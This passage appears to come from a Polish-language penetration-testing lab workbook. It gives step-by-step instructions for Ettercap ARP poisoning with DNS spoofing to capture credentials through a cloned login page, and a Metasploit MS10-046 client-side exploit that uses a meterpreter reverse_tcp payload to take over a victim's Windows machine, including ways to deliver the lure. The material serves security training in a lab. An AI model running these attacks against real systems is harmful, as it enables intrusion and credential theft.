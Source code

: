 6. Podaj adres bramy jako Cel 1 klikając `Add to target 1` oraz system Windows7 jako cel 2. W zakładce `Targets -> Current targets` możesz zobaczyć wybrane cele.
7. W zakładce `Plugins -> Manage the plugins` aktywuj dns_spoof klikając dwa razy.
8. Uaktywnij zatruwanie ARP przechodząc do `Mitm -> ARP poisoning` a następnie zaznacz `Sniff remote connections`
9. Rozpocznij atak 
`Start -> Start sniffing`
10. W wybranym systemie celu, przejdź pod adres sklonowanej strony i spróbuj się zalogować. 

Program SET powinien przechwycić wpisane przez nas dane logowania.

## Ćwiczenie 11 - Client side attack
>**Zasoby:**
Kali Linux , Windows XP

Wykorzystamy podatność MS10-046 oraz aplikację Metasploit.
* Uruchamiamy konsole metasploita:
`# msfconsole`
* Szukamy interesującego nas exploita:
* Wybieramy exploit:
```
> search ms10_046
> use exploit/windows/browser/ms10_046_shortcut_icon_dllloader
```
* Sprawdzamy informacje na temat exploita:
`> info`
* Szukamy interesujący nas PAYLOAD:
`> show payloads`
* Wybieramy PAYLOAD np:
`> set PAYLOAD windows/meterpreter/reverse_tcp`
* Sprawdzamy jakie parametry musimy ustawić
`> show options`
* Ustawiamy parametry przy pomocy polecenia set:
    ```
    > set SRVHOST <IP>
    > set LHOST <IP>
    ```
* Jeśli wszystkie parametry są ustawione uruchamiamy exploita:
`> exploit`
* W tym momencie Metasploit uruchamia serwer www oraz pokazuje na jaki adres musimyskierować naszą ofiarę. Oczywiście aby dostarczyć ofierze link do naszego spreparowanego serwera możemy użyć różnych technik. Możemy bezpośrednio przesłać link do naszego serwera lub stworzyć skrót lnk do naszej strony www i podesłać plik np. wykorzystując Pendrive.
* Po podłączeniu ofiary przejmujemy jej komputer.
* Wyświetlamy dostępne sesje
`> sessions`
* Podłączamy się do sesji 1
`> sessions –i 1`
* Już jesteśmy na komputerze ofiary : >

## Ćwiczenie 12 – Atak na serwer MS SQL
>**Zasoby:**
Kali Linux , Windows Server 2012
